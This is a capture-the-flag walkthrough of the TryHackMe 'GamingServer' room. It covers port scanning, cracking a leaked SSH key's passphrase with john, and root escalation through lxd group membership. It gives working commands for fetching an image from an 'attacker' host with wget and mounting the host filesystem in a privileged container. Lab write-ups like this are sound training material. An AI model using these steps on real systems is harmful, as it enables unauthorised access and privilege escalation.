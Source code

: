 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . GamingServer
# DESCRIPTION       . An Easy Boot2Root box for beginners
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/gamingserver
```


```bash
sudo nmap -sSVC -T5 -p- 10.10.182.147 -oN gamingserver
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 340efe0612673ea4ebab7ac4816dfea9 (RSA)
|   256 49611ef4526e7b2998db302d16edf48b (ECDSA)
|_  256 b860c45bb7b2d023a0c756595c631ec4 (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- The main page contains a username in the source code

```
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
```

- By navigating the website, we can find the `/uploads` directory by clicking on the `Dragaan Lore` button and then on `Uploads`. 

- Here we can find `dict.lst`,  the hacker's manifesto and `meme.jpg`.

- I fuzzed the webserver and found out that there's also `/secret` directory which holds the `secretKey` file, a private RSA key.

- However, `ssh -i secretKey john@10.10.182.147` asks for a passphase.

```
python3 ssh2john.py secretKey > crack

john -w=dict.lst crack
```


```
john@exploitable:~$ id

uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

- I knew that being in the `lxd` group could be leveraged to escalate privileges on the box but I didn't knew exactly the steps needed in order to do that, so I googled :)

- **LOCAL HOST**
```LOCAL_HOST
git clone https://github.com/saghul/lxd-alpine-builder

cd lxd-alpine-builder

sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine

sudo ./build-alpine -a i686

python3 -m http.server 80
```

**VICTIM**
```VICTIM
cd ~

wget http://attacker:port/alpine_image_name

# import the image
lxc image import ./alpine*.tar.gz --alias myimage

# It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default 
# default to all of them did the job for me, rename storage or whatever needed if default already exists. 
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh

cd /mnt/root
```

- The flag was in `/mnt/root/root/root.txt`
- The other flag was in `/home/john/user.txt
